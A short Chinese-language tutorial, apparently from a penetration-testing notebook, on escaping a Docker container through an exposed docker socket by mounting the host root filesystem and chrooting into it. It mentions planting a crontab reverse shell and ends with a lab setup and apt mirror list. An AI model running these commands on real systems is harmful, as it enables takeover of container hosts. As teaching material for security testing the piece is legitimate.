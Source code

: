 查找docker socket  


![](../../.gitbook/assets/image%20%28590%29.png)

安装docker client  
apt-get install docker.io

查看当前镜像  
docker images

运行一个Ubuntu容器，将宿主机的根目录挂载到容器中的host目录上：  
docker run -it -v /:/host/ ubuntu:18.04 bash

在新容器执行，将根目录换成指定的目录：  
chroot ./ bash  


![](../../.gitbook/assets/image%20%28587%29.png)

基本从容器中逃逸出来了，可以往crontab写计算任务反弹Shell进行操控。

**环境构建**

下载ubuntu14

```bash
docker run -it -v /var/run/:/host/var/run/ ubuntu:14.04 /bin/bash
```

更新源

```bash
deb-src http://archive.ubuntu.com/ubuntu xenial main restricted #Added by software-properties
deb http://mirrors.aliyun.com/ubuntu/ xenial main restricted
deb-src http://mirrors.aliyun.com/ubuntu/ xenial main restricted multiverse universe
deb http://mirrors.aliyun.com/ubuntu/ xenial-updates main restricted
deb-src http://mirrors.aliyun.com/ubuntu/ xenial-updates main restricted multiverse universe #Added by software-properties
deb http://mirrors.aliyun.com/ubuntu/ xenial universe
deb http://mirrors.aliyun.com/ubuntu/ xenial-updates universe
deb http://mirrors.aliyun.com/ubuntu/ xenial multiverse
deb http://mirrors.aliyun.com/ubuntu/ xenial-updates multiverse
deb http://mirrors.aliyun.com/ubuntu/ xenial-backports main restricted universe multiverse
deb-src http://mirrors.aliyun.com/ubuntu/ xenial-backports main restricted universe multiverse #Added by software-properties
deb http://archive.canonical.com/ubuntu xenial partner
deb-src http://archive.canonical.com/ubuntu xenial partner
deb http://mirrors.aliyun.com/ubuntu/ xenial-security main restricted
deb-src http://mirrors.aliyun.com/ubuntu/ xenial-security main restricted multiverse universe #Added by software-properties
deb http://mirrors.aliyun.com/ubuntu/ xenial-security universe
deb http://mirrors.aliyun.com/ubuntu/ xenial-security multiverse
```
